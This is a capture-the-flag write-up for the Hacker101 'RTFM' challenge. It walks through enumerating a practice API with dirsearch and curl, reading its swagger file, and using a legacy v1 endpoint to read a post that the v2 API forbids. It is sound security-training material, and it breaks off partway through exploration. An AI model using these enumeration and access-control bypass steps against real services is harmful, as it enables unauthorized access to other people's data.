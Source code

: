 # Hacker101 RTFM

https://ctf.hacker101.com/ctf

```bash
% export BASE_URL='https://b92382ffe276f612169505245b1a76aa.ctf.hacker101.com'
```

We don't get much for starters:

```bash
% curl ${BASE_URL}
API base located at /api/v1/
% curl ${BASE_URL}/api/v1
["Endpoint not found"]
```

I've been using `dirsearch` (https://github.com/maurosoria/dirsearch) to 
enumerate endpoints:

```bash
% python3 dirsearch.py -u ${BASE_URL}

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, html, htm | HTTP method: GET | Threads: 25 | Wordlist size: 12266

Target: https://b92382ffe276f612169505245b1a76aa.ctf.hacker101.com/

[15:15:36] Scanning: 
[15:16:07] 200 -    3KB - /api/v2/swagger.json                              
                                                                             
Task Completed
```

That's something! Off to a good start:

```bash
% curl --silent ${BASE_URL}/api/v2/swagger.json | jq
{
  "swagger": "2.0",
  "flag": "FLAG",
  "info": {
[...]
```

We get a handful of endpoints:

```bash
% curl --silent ${BASE_URL}/api/v2/swagger.json | jq '.paths' | grep '^  "'     
  "/api/v2/user": {
  "/api/v2/user/login": {
  "/api/v2/admin/user-list": {
  "/api/v2/user/posts/{id}": {
```

`/api/v2/user` POST endpoint is unauthenticated - that's promising. So is 
`/api/v2/user/login`, but that requires a username and a password (maybe 
something to look at later).

```bash
% curl -d'username=pizza&password=pizza' ${BASE_URL}/api/v2/user
{"username":"pizza","flag":"FLAG","message":"User created go to \/api\/v2\/user\/login to login"}%
% 
```

Let's start a session as well:

```bash
% curl -d'username=pizza&password=pizza' ${BASE_URL}/api/v2/user/login
{"session":"edf12810e48a2bcf2d039b8d31851622"}%
```

Let's check out some endpoints:

```bash
% curl -H 'X-Session: edf12810e48a2bcf2d039b8d31851622' ${BASE_URL}/api/v2/user           
{"username":"pizza"}
% 
% curl -H 'X-Session: edf12810e48a2bcf2d039b8d31851622' ${BASE_URL}/api/v2/admin/user-list
{"error":"Your user level needs to be an admin"}
% 
% curl -H 'X-Session: edf12810e48a2bcf2d039b8d31851622' ${BASE_URL}/api/v2/user/posts/1
{"error":"Post does not belong to you"}
% 
% curl -H 'X-Session: edf12810e48a2bcf2d039b8d31851622' ${BASE_URL}/api/v2/user/posts/2
{"error":"Post does not exist"}
```

Not much. What about those `/api/v1` endpoints the home page mentioned?

```bash
% curl ${BASE_URL}/api/v1/swagger.json                                  
["Endpoint not found"]
%
curl ${BASE_URL}/api/v1/login
["Endpoint not found"]
%
% curl -d'username=pizza&password=pizza' ${BASE_URL}/api/v1/user/login
{"token":"a15bb21c251d356c1b77c0064bc58859"}
%
% curl -H 'X-Token: a15bb21c251d356c1b77c0064bc58859' ${BASE_URL}/api/v1/admin/user-list
["Endpoint not found"]
%
% curl -H 'X-Token: a15bb21c251d356c1b77c0064bc58859' ${BASE_URL}/api/v1/admin/user-list
["Endpoint not found"]
%
% curl -H 'X-Token: a15bb21c251d356c1b77c0064bc58859' ${BASE_URL}/api/v1/user/posts/1
{"id":1,"post":"You got the Post: FLAG","analytics":"\/api\/v1\/post-analytics\/3c8a6664b8203c2e0b2b24972ccf5ce3"}
% 
```

Alright! A flag, and a bonus endpoint to boot. Anything there?

```bash
% curl -H 'X-Token: a15bb21c251d356c1b77c0064bc58859' ${BASE_URL}/api/v1/post-analytics/3c8a6664b8203c2e0b2b24972ccf5ce3
{"hash":"3c8a6664b8203c2e0b2b24972ccf5ce3","post":1,"views":34373}
%
% curl -H 'X-Token: a15bb21c251d356c1b77c0064bc58859' ${BASE_URL}/api/v1/post-analytics/
{"campaigns":["3c8a6664b8203c2e0b2b24972ccf5ce3"]}
%
% curl -H 'X-Token: a15bb21c251d356c1b77c0064bc58859' ${BASE_URL}/api/v1/campaigns
["Endpoint not found"]
%
% curl -H 'X-Token: a15bb21c251d356c1b77c0064bc58859' ${BASE_URL}/api/v1/campaigns/
["Endpoint not found"]
%
% curl -H 'X-Token: a15bb21c251d356c1b77c0064bc58859' ${BASE_URL}/api/v1/campaigns/3c8a6664b8203c2e0b2b24972ccf5ce3
["Endpoint not found"]
%
```

Maybe worth exploring. Possibly something we can explore in the v2 API as well?

